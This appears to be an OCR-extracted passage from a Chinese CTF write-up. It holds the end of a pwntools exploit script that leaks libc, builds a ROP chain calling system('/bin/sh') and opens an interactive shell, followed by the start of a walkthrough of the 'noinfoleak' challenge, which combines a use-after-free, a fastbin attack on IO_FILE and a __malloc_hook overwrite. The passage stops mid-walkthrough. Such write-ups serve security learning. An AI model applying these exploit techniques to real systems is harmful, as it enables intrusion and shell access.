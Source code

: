 data1 = p.recv( 18)

p.recvuntil( ',')

data2 = p.recv( 14)

data1 = int(data1, 16)

data2 = int(data2, 16) - 240

print hex(data1),hex(data2)

libc_base = data2 - libc.symbols[ '__libc_start_main']

system_addr = libc_base + libc.symbols[ 'system']

bin_addr = libc_base + libc.search( '/bin/sh').next()

p.recvuntil( 'Tell me the size of your story:')

p.sendline( '144')

p.recvuntil( 'You can speak your story:')

#gdb.attach(p)

payload = 'A'*136 + p64(data1) + 'A'*8 + p64(0x0000000000400bd3) + p64(bin_addr) + p64(system_addr)

p.sendline(payload)

p.interactive()

2

PWN之二——noinfoleak

一看程序就是没有view函数，需要自己想办法leak。因为不久之前刚练手了IO_FILE泄漏的缘故，所以第一时间想到的泄漏就是利用IO_FILE(所以搞的我头皮发麻

只有一个UAF的漏洞，但是足够了。malloc的最大size是0x7f，但是因为程序malloc时候自动加1的缘故，所以最大能拿到0x90的chunk。

漏洞点

UAF：

free(qword_6010A0[ 2* v0]); // UAF

思路

1、Fast bin attack到IO_FILE处

2、修改IO_write_base泄漏地址

3、Fast bin attack到__malloc_hook处

4、malloc触发getshell

实践

Fast bin attack大家都会我这里就不多说了，我这里比较蠢，还用了Double Free的方式来攻击，导致浪费了chunk，这里其实可以free掉之后修改fd来继续分配fake chunk。

因为我要分配到IO_FILE中，且它在libc中，所以我需要找一个接近于他的一个地址，那么最好的方法就是free掉chunk后的fd和bk指针了。

我先malloc一个0x7f的chunk，然后free。
